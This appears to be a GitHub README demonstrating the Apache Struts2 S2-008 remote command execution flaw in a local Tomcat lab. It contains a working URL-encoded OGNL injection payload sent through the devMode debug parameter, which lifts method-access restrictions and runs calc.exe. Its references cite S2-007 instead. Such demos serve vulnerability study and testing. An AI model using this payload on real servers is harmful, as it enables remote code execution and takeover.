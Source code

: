 # S2-008 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts 2.0.0` - `Struts 2.3.17`

Problem: When `devMode` is on, the hacker can pass in `ognl` expressions for execution.

## Environment

Struts2 version: `struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC



![devmode](devmode.jpg)

## Payload

- open `calc.exe`

  ```java
  http://localhost:8080/s2_008_war_exploded/devmode.action
  ?debug=command
  &expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29)
  ```


## Reference

- [S2-007 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md)


* [【Struts2-命令-代码执行漏洞分析系列】S2-007](https://xz.aliyun.com/t/2684)

* [S2-007](https://cwiki.apache.org/confluence/display/WW/S2-007)